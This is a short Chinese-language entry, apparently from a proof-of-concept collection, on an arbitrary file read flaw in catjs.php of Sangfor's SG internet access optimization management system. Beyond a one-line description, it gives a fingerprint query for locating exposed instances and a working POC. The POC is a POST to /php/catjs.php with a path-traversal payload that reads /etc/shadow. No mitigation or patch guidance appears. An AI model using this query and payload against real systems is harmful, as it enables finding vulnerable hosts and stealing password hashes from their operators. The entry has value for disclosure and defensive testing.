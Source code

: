 # 

# 深信服 SG上网优化管理系统 catjs.php 任意文件读取漏洞

## 漏洞描述

深信服 SG上网优化管理系统 catjs.php 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件

## 漏洞影响

深信服 SG上网优化管理系统

## 网络测绘

```
title=="SANGFOR上网优化管理"
```

## 漏洞复现

登陆页面

![image-20230828111216211](images/image-20230828111216211.png)

验证POC

```
POST /php/catjs.php

["../../../../../../etc/shadow"]
```

![image-20230828111228485](images/image-20230828111228485.png)
